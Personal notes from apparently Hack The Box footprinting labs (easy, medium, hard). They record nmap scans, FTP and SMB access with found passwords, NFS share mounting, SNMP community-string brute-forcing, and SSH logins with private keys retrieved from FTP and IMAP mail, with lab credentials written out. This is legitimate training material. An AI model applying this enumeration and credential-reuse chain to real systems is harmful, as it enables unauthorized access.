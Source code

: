 
Easy lab
- nmap -p- T4 --min-rate=1000 IP
	- 21/tcp open ftp
	- 22/tcp open ssh
		- OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
	- 53/tcp open domain
		- ISC BIND 9.16.1 (Ubuntu Linux)
	- 2121/tcp open ccproxy-ftp
- 21 ftp
	- ceil:qwer1234 works
		- Nothing listed
- 2121 ftp
	- ceil:qwer1234 works
		- ls -> nothing
		- but ls -al shows more!
			- .ssh directory
		- get id_rsa
		- get id_rsa.pub
		- get authorized_keys
- 22 open ssh
	- ssh -v ceil@10.129.64.132
		- public key only, password don't work
	- can login as ceil with the id_rsa file we downloaded from ftp
		- ssh ceil@10.129.64.132 -i id_rsa
	- then cat the flag


Medium lab
- nmap scan
111/tcp   open  rpcbind       2-4 (RPC #100000)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
2049/tcp  open  nlockmgr      1-4 (RPC #100021)
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49679/tcp open  msrpc         Microsoft Windows RPC
49680/tcp open  msrpc         Microsoft Windows RPC
49681/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows


After running with -sV

111, 2049 -> NFS
135,445 -> SMB
3389 -> windows RDP
the rest -> microsoft remote management

enumerate NFS
- showmount -e 10.129.198.248
	- /TechSupport
- mount the share
	- mkdir target-NFS
	- sudo mount -t nfs 10.129.198.248:/ ./target-NFS/ -o nolock
		- no permission
		- nevermind. actually just needed to run as root
	- cat *
	- found credentials for smtp server?

 2    host=smtp.web.dev.inlanefreight.htb
 3    #port=25
 4    ssl=true
 5    user="alex"
 6    password="lol123!mD"
 7    from="alex.g@web.dev.inlanefreight.htb"
 8}
 9
10securesocial {
11    
12    onLoginGoTo=/
13    onLogoutGoTo=/login
14    ssl=false
15    
16    userpass {      
17    	withUserNameSupport=false
18    	sendWelcomeEmail=true
19    	enableGravatarSupport=true
20    	signupSkipLogin=true
21    	tokenDuration=60
22    	tokenDeleteInterval=5
23    	minimumPasswordLength=8
24    	enableTokenJob=true
25    	hasher=bcrypt
26	}
27
28     cookie {
29     #       name=id
30     #       path=/login
31     #       domain="10.129.2.59:9500"
32            httpOnly=true
33            makeTransient=false
34            absoluteTimeoutInMinutes=1440
35            idleTimeoutInMinutes=1440
36    }   



enumerate SMB
- smbclient -L //10.129.205.58 HTB 
	- No password
- ./enum4linux-ng.py
	- Domain: WINMEDIUM
- Connect with credentials
	- smbclient -L //10.129.205.58 -U alex
	- password: lol123!mD

ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	devshare        Disk      
	IPC$            IPC       Remote IPC
	Users           Disk      

SMB continued
- Tried to connect to the share
	- smbclient //10.129.205.58/devshare -U alex
	- see important.txt
- Fail to get
	- reason: was still in the mounted directory on local machine. cd to desktop and can get already
	- sa:87N1ns@slls83

enumerate RDP with credentials
- xfreerdp /u:sa /p:"87N1ns@slls83" /v:10.129.205.58
	- doesnt work
- xfreerdp /u:alex /p:'lol123!mD' /v:10.129.205.58
	- Had to use ' ' and not " " for some reason.
	- some gui problem with root, ran as normal user and worked
- Then log into the mssql server with the found credentials from just now
	- Run the application as admin then type password
- Editing the table shows the users


hard lab

nmap scan

22/tcp  open  ssh
110/tcp open  pop3
143/tcp open  imap
993/tcp open  imaps
995/tcp open  pop3s

Don't forget to check UDP!
161/udp open snmp

Enumerate snmp
- Try to bruteforce community string
	- onesixtyone -c /opt/useful/seclists/Discovery/SNMP/snmp.txt 10.129.202.20
- Found string: backup
- Enumerate with found cred
	- snmpwalk -v2c -c backup 10.129.202.20
- Found creds
	- tom NMds732Js2761
- Successfully logged into imap with this
	- `openssl s_client -connect <target>:993` (can replace 993 with imaps)
	- a login tom NMds...
	- `a list "" "*"`
	- a select Important
		- nothing inside
	- a select INBOX
		- found an ssh private key inside
- Then copy the private key over to local machine, then use it to log in to ssh root
	- cat the database and find htb flag
- If login as tom instead,
	- need to access the mysql client
	- mysql --user=tom -p
	- SHOW DATABASES;
	- USE users;

https://manojghimire.com.np/footprinting-lab-hard-hack-the-box/?i=1

